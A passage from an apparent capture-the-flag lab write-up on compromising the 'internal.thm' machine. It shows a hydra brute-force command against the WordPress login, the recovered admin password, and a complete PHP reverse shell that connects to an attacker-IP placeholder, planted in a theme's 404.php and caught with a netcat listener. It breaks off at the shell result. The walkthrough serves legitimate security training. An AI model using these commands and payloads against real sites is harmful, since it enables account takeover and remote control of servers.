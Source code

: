   ```
  /wp-includes (Status: 301)
  /wp-admin (Status: 301)
  ```
- **Key Insight**: `/blog` hosts a WordPress site, confirmed by `wp-` directories. `/wp-admin` is the admin login page [].

### 3. Brute-Force WordPress Admin Credentials
- Visited `http://internal.thm/blog/wp-admin` and tested credentials:
  - `test:test`: Returned "unknown username" [].
  - `admin:admin`: Returned "incorrect password for admin," confirming the username `admin` exists [].
- Intercepted the login request with Burp Suite to craft a `hydra` command:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:incorrect" -t 4 -f
  ```
- Flags explained:
  - `-l admin`: Username `admin`.
  - `-P /usr/share/wordlists/rockyou.txt`: Password wordlist.
  - `http-post-form`: Target the WordPress login form.
  - `:incorrect`: Failure message for incorrect passwords.
  - `-t 4`: 4 threads for speed.
  - `-f`: Stop on first valid pair.
- Results:
  ```
  [80][http-post-form] host: internal.thm   login: admin   password: my2boys
  ```
- **Credentials**: `admin:my2boys` [].

### 4. Upload Reverse Shell via WordPress
- Logged into `http://internal.thm/blog/wp-admin` with `admin:my2boys`.
- Navigated to **Appearance > Theme Editor** and selected the **Twenty Seventeen** theme [].
- Edited `404.php` to include a reverse shell from [revshells.com](https://www.revshells.com/) (e.g., PHP reverse shell):
  ```php
  <?php
  $sock = fsockopen("[ATTACKER IP]", 7775);
  $proc = proc_open("/bin/bash", array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")), $pipes);
  stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0);
  while (!feof($sock) && !feof($pipes[1])) {
      $read = array($sock, $pipes[1], $pipes[2]);
      $write = NULL; $except = NULL; $num_changed = stream_select($read, $write, $except, NULL);
      if ($num_changed > 0) {
          foreach ($read as $r) {
              $data = fread($r, 4096);
              if ($r == $sock) { fwrite($pipes[0], $data); }
              else { fwrite($sock, $data); }
          }
      }
  }
  fclose($sock); proc_close($proc);
  ?>
  ```
- Started a Netcat listener:
  ```bash
  nc -lvnp 7775
  ```
- Visited `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` to trigger the shell.
- **Result**: Got a reverse shell as `www-data`:
  ```bash
  ```